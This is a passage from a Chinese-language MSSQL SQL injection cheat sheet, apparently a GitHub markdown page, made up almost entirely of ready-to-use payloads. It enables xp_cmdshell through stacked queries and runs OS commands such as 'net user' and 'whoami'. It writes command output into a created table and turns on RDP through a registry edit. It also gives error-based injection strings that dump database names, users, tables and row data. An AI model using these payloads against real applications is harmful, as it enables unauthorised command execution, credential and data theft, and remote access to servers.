 ```
```
- 开启xp_cmdshell
```
;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE--+
```
- 命令执行
```
';exec master..xp_cmdshell 'net user'--+	
' and 1=(select * from openrowset('sqloledb','trusted_connection=yes','set fmtonly off exec master..xp_cmdshell ''net user'''))--+
' if 1=1 execute('exec sp_configure ''show advanced options'',1;reconfigure;exec sp_configure ''xp_cmdshell'', 1;reconfigure;exec xp_cmdshell ''whoami''')--+
```
- 创建一个包含两个字段t1的cmd_sql表
```
'; CREATE TABLE cmd_sql (t1 varchar(8000))--+
将执行结果存入t1中
';+insert into cmd_sql(t1) exec master..xp_cmdshell 'net user'--+
```
- 开启3389端口
```
';exec master..xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f'--+
```

#### mssql报错注入

- 查看版本号
```
file_name(@@version)
```
- 变换N的值就可以爆出所有数据库的名称
```
' and (convert(int,db_name(N)))>0--+ 
```
- 查看当前用户
```
' and (user)>0--+ 	
' and 1=(select CAST(USER as int))--+
```
- 获取当前数据库
```
' and 1=(select db_name())--+
```
- 获取数据库该语句是一次性获取全部数据库，且语句只适合>=2005
```
' and 1=(select quotename(name) from master..sysdatabases FOR XML PATH(''))--+
' and 1=(select '|'%2bname%2b'|' from master..sysdatabases FOR XML PATH(''))--+
```
- 获取数据库所有表（只限于mssql2005及以上版本）
```
' and 1=(select quotename(name) from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--+
' and 1=(select '|'%2bname%2b'|' from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--+
' and 1=(select top 1 name from sysobjects where xtype='u' and name <> '第一个数据库表名')--+
```
- 一次性爆N条所有字段的数据（只限于mssql2005及以上版本）
```
' and 1=(select top N * from 指定数据库..指定表名 FOR XML PATH(''))--+
' and 1=(select top 1 * from 指定数据库..指定表名 FOR XML PATH(''))--+
```
- 暴表
```
' and 1=convert(int,(select top 1 table_name from information_schema.tables))--+
```
